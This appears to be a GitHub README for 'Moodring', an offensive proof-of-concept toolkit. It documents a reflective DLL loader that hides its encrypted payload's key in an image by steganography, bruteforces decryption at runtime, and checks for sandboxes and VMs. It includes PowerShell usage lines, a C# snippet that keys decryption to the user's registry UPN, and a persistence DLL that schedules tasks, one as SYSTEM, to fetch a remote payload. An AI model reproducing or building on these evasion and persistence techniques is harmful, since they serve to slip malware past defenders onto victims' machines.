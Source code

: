 ## Moodring
PoC reflective DLL loader with encryption, steg and env checks. Decryption key is bruteforced at runtime.

### Cryptorchid - Encrypt and Hide 
Command line Encrypt/Decrypt tool, can test if the hash can be retrieved and payload decrypted successfully prior to putting it in the pipeline

```powershell
# Skip DNS check, use steganography, and encrypt the dll using AAAA and steg the hash into nogo.png, to created nogo_copy.png
 .\Cryptorchid.exe -nodns -steg AAAA .\calc.dll .\nogo.png

# Check DNS match for google and check for Sandbox VMs, looks for encyrpted 'mod.txt' and nogo_copy.png in the current dir, bruteforce to decrypt and load
# This is to test the loader.
 .\Cryptorchid.exe 8.8.8.8 -antivm -stegload .\nogo_copy.png

 # Pull hash from steg image and decrypt output to view (meant for text/test, will print the contents of dlls)
 .\Cryptorchid.exe -nodns -desteg  .\nogo_copy.png
```

### Decryptorchid - Decrypts payload from encrypted text file using hash stored in image
Sideloading DLL, bruteforces the payloads decryption and loads target into memory, invoking your desired method. 

TODO: Have this an encrypted value we can pull as well from another image, get rid of the text file.
TODO: if O365, keying off the email is possible since regkey can be used that contains users email.
 Query Key > Hash Value > Store Hash and Compare against our stored value, if match, decrypt.

string storedHashValue = "";
 string regValue = Microsoft.Win32.Registry.GetValue(@"HKEY_CURRENT_USER\", "upn" null);
string upnName = (string)regValue;
 string hashedUpnValue = GetSHA256Hash(upnName);
 bool correctKey = hashedUpnValue.Equals(storedHashValue);
 if (correctKey){
    var rawPayload = rc4EncDecrypt(Encoding.UTF8.GetBytes(payload), upnName);
 }
 // run that motha

 Nope, target the ost/nst file instead, regkey incosistent.


### Taskmasker 
Persister DLL, checks users permissions and creates a task, fetching a remote payload to an AppData directory. If admin, two tasks are created, one to run as SYSTEM. 

